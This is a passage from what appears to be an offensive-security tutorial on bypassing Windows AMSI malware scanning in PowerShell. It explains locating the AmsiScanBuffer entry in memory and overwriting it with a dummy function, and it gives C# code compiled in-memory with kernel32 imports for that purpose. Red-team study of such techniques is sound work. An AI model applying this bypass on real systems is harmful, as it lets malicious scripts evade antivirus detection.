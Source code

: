 Now we can start coding a proof of concept in PowerShell. We could use the
_System\_Management\_Automation\_ni + 0x786b00_ offset to overwrite the entry
in our code, but this approach is not entirely practical because the
offset can change based on the machine and the installed version of CLR.

A better approach would be to read 0x1000000 bytes backwards from the
memory address of _ScanContent_ using _ReadProcessMemory_ and save the
bytes in an array, which we can loop through until we find the
_AmsiScanBuffer_ address and the offset.

While testing that approach in PowerShell versions 5 and 7, Vixx ran into
access problems reading the full 0x1000000 bytes at once with a
single _ReadProcessMemory_ call. He also discovered that reading the bytes
one at a time was slow, requiring millions of _ReadProcessMemory_ calls
which was noisy and inefficient. He found a middle ground, opting to split
the data into 0x50000 (32KB) chunks.

Let's start building the code. In the first section of code, I will load
and import the required APIs in C#.

In this code, I will define an _APIs_ class with several external function
declarations that we've imported from __kernel32.dll__ using the _DllImport_
attribute. Our class also contains a _Dummy_ method which returns an
integer. Finally, I will use the _Add-Type_ cmdlet to compile this
in-memory assembly and add this class to the current PowerShell session.
I will use this dummy function later to overwrite the writable entry that
contains _AmsiScanBuffer_.

```
$APIs = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;

public class APIs {
    [DllImport("kernel32.dll")]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt32 nSize, ref UInt32 lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
   
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

    [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
    public static int Dummy() {
        return 1;
    }
}
"@

Add-Type $APIs
```
> Listing {#l:AMSI_dummy_function} - In-Memory Assembly and Dummy Function
